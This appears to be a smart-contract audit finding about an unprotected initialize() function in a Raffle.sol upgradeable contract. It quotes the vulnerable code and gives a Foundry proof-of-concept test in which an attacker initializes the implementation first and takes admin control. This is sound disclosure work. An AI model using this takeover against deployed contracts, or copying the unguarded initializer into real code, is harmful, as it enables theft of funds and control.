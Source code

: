 ### Vulnerable Code Path
```solidity
// Raffle.sol - initialize function (lines 106-118)
function initialize(address _spinContract, address _supraRouter) public initializer {
    __AccessControl_init();
    __UUPSUpgradeable_init();
    
    spinContract = ISpin(_spinContract);
    supraRouter = ISupraRouterContract(_supraRouter);
    admin = msg.sender; // ❌ Attacker becomes admin
    nextPrizeId = 1;

    _grantRole(DEFAULT_ADMIN_ROLE, msg.sender); // ❌ Attacker gets admin role
    _grantRole(ADMIN_ROLE, msg.sender);
    _grantRole(SUPRA_ROLE, _supraRouter);
}
```

**Critical Issue**: While OpenZeppelin's `initializer` modifier prevents re-initialization, it doesn't prevent the FIRST initialization. If the implementation contract is deployed without calling `initialize()`, anyone can call it and become the admin.

## Proof of Concept

### Prerequisites
- Implementation contract deployed without initialization
- Attacker can call initialize() before legitimate admin
- Tested on Solidity 0.8.25

The PoC demonstrates implementation takeover through unprotected initialization:

```solidity
function test_InitializeImplementationContract() public {
    // 1. Implementation starts uninitialized (admin = address(0))
    assertEq(implementation.admin(), address(0));
    
    // 2. Attacker prepares malicious contracts
    SpinStub maliciousSpinContract = new SpinStub();
    address maliciousOracle = makeAddr("maliciousOracle");
    
    // 3. Attacker initializes implementation with malicious parameters
    vm.prank(attacker);
    implementation.initialize(address(maliciousSpinContract), maliciousOracle);
    
    // 4. Verify attacker gained full control
    assertTrue(implementation.hasRole(implementation.DEFAULT_ADMIN_ROLE(), attacker));
    assertTrue(implementation.hasRole(implementation.ADMIN_ROLE(), attacker));
    assertEq(implementation.admin(), attacker);
    assertEq(address(implementation.spinContract()), address(maliciousSpinContract));
}
```
